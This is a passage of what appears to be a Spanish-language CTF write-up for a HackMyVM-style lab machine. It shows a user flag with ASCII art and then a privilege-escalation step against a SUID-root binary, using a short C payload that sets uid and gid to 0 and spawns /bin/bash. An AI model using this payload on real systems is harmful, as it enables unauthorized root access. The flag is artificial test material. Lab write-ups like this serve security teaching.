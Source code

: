 > user.txt

```
                                                                                
                                   .     **                                     
                                *           *.                                  
                                              ,*                                
                                                 *,                             
                         ,                         ,*                           
                      .,                              *,                        
                    /                                    *                      
                 ,*                                        *,                   
               /.                                            .*.                
             *                                                  **              
             ,*                                               ,*                
                **                                          *.                  
                   **                                    **.                    
                     ,*                                **                       
                        *,                          ,*                          
                           *                      **                            
                             *,                .*                               
                                *.           **                                 
                                  **      ,*,                                   
                                     ** *,                                      
                                                                                
                                                                                
                                                                                
HMVbisoususeryay
```

## Escalate Privileges

Ahora que somos el usuario `theuser` veremos que nuestro objetivo es hacer algo con el siguiente binario:

```shell
ls -la /home/suidy/suidyyyyy
```

Info:

```
-rwsrws--- 1 root  theuser 16712 Oct  2  2020 suidyyyyy
```

Si recordamos en otra maquina que he `hackeado` que tiene este mismo `binario`, vamos a utilizar lo mismo que utilice en dicha maquina.

> payload.c

```c
#include <stdlib.h>
#include <unistd.h>

int main()
{
   setuid(0);
   setgid(0);
   system("/bin/bash");
   return 0;
}
```
